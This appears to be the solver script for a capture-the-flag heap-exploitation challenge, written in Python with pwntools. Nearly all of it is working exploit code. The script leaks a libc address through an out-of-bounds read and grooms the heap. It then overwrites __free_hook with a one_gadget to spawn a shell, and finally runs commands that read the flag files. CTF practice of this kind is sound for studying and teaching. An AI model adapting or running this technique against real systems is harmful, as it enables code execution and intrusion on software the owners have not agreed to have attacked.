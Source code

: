 ```python

def main():
    l = handle()

    l.recvuntil(b"-------------------------- MENU ---------------------------")
    
    file = do_select_file(l, b"flag")
    print(file)

    select_do_change_content(l, b"A"*0x100)
    select_do_save_changes(l)
    select_do_back(l)

    do_select_file(l, b"flag")

    oobr = select_do_get_content(l)
    # print(hexdump(oobr))

    libc_leak = u64(oobr[0xab:0xab+8])
    log.info('libc leak: %#x', libc_leak)
    libc_base = libc_leak - 0x3ec680 # libc.sym._IO_2_1_stderr_
    log.info("libc base: %#x", libc_base)
    libc.address = libc_base

    select_do_back(l)

    do_create_file(l, b'H'*0xc0)
    do_select_file(l, b'H'*0xc0)
    select_do_change_content(l, cyclic(0xc0))
    select_do_change_name(l, b'hi')
    select_do_save_changes(l)
    select_do_change_content(l, b'A'*0x130)
    select_do_back(l)
    log.info('heap groomed')
    
    do_create_file(l, b'meh')
    do_select_file(l, b'meh')
    payload = fit({
        0xd0-39: p64(0x21) + b'/etc/localtime\x00',
        0xf0-39: p64(0xf1) + p64(0),
        0x1e0-39: p64(0x1b1) + p64(0),
        0x390-39: p64(0xf1) + p64(libc.sym.__free_hook),
    }, length=0x400)
    select_do_change_content(l, payload)
    select_do_change_name(l, b'ho')
    select_do_change_content(l, b'B'*(0xd0-25-2-0x10))
    select_do_delete(l)
    log.info('planted free_hook')

    do_select_file(l, b'README.md')
    select_do_change_name(l, b'W'*0xd0)
    select_do_save_changes(l)
    # select_do_back(l)
    # select_do_delete(l)
    one_gadget = libc_base + 0x10a41c # 0x4f3d5 0x4f432
    select_do_change_name(l, p64(one_gadget).ljust(0xe0, b'\x00'))
    log.success('enjoy your shell')
    # select_do_save_changes(l)

    l.sendline(b'id;cat f*;cat /home/ctf/f*')

    l.interactive()

```
